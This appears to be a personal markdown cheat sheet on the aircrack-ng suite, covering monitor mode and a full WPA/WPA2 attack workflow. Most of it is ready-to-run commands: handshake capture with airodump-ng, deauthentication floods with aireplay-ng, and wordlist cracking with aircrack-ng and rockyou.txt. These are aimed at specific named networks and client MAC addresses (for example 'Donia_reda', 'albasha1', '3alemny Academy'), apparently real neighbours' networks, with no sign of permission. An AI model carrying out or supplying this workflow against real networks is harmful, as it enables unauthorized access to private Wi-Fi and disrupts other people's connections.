 [aircrack-ng](https://aircrack-ng.org)
======================================

> Aircrack-ng suite:
- airbase-ng
- airdecap-ng
- aireplay-ng
- airodump-ng 
- airolib-ng
- airtun-ng
- aircrack-ng
- airdecloak-ng
- airmon-ng                                ->  
- airodump-ng-oui-update
- airserv-ng
- airventriloquist-ng

wireless repeater


put interface in managed mode
the interface changed its name while putting in monitor mode 
monitor mode: listen to whole bunch of networks instead of listening for oly one
packet injection


# llist wireless interfaces
airmon-ng


how toknow if your (network card = WI-FI device) supported monitor mode ?

iw list
	Supported interface modes:
       * IBSS
		 * managed -> wireless client
		 * AP -> Access Point = hotspot
		 * AP/VLAN
		 * WDS
		 * monitor 
		 * mesh point
...

# convert selected interface from manager mode to monitor mode
airmon-ng start <>


 C4:71:54:BE:26:92  -82        5       83   12   3  54e. WPA  CCMP   PSK  Sameh
D4:7D:FC:0F:78:6A


sudo aireplay-ng -0 100 -a 00:14:7F:0E:B3:7D -c D4:7D:FC:0F:78:6A wlo1mon


sudo airmon-ng
sudo airmon-ng start <wlan0>
sudo airodump-ng <wlan0mon>
sudo airodump-ng --bssid C4:71:54:BE:26:92 -c 3 -w /home/sabry/dotfiles/ali_ wlo1mon
sudo aireplay-ng -0 100 -a <bssid> [-c <mac_address_for_any_device_at_network>] <wlan0mon>
sudo aireplay-ng -0 100 -a 00:14:7F:0E:B3:7D [-c <mac_address_for_any_device_at_network>] <wlan0mon>
sudo aircrack-ng -a2 -w <wordlist_file_path> <handshake.cap>
sudo aircrack-ng -a2 -w /mnt/cyber/rockyou.txt /mnt/fati14-01.cap
sudo aircrack-ng -a2 -w ./rockyou.txt ./len-handshake.cap

-----------------------------------------------------------------------------------------------------
- ESSID: network name
- BSSID: router MAC address
- Channel: [1-12]


 3C:67:8C:CA:7E:28  -83       84       73    0   1  54e  WPA2 CCMP   PSK  3alemny Academy                                                                                      
sudo airodump-ng --bssid 3C:67:8C:CA:7E:28 -c 1 -w /home/sabry/wlan/academy wlo1mon


sudo aireplay-ng -0 100 -a 3C:67:8C:CA:7E:28 -c  3C:67:8C:CA:7E:28 wlo1mon


   -87       48        0    0   3  54e. WPA2 TKIP   PSK  zamalek14                │



sudo airodump-ng --bssid 20:E8:82:85:03:18 -c 5 -w /home/sabry/dotfiles/Donia_reda wlo1mon


sudo aireplay-ng -0 100 -a 1C:59:9B:E7:A3:50 -c 1C:59:9B:E7:A3:50 wlo1mon



 20:E8:82:85:03:18  -85       38      103    0   5  54e  WPA2 CCMP   PSK  Donia_reda                                                                 │7A:4C:CC:6B:64] [ 0| 0 ACKs]



 1C:59:9B:E7:A3:50  -54       41      217    7   7  54e  WPA2 CCMP   PSK  albasha1  

sudo airodump-ng --bssid 1C:59:9B:E7:A3:50 -c 3 -w /home/sabry/dotfiles/albasha1 wlo1mon



sudo aireplay-ng -0 100 -a 1C:59:9B:E7:A3:50 -c 50:29:F5:87:DA:41 wlo1mon






802.11ax (Wi-Fi 6) Adapters
802.11ac Adapters
802.11n Adapters


nixmon - fork -> bcmon


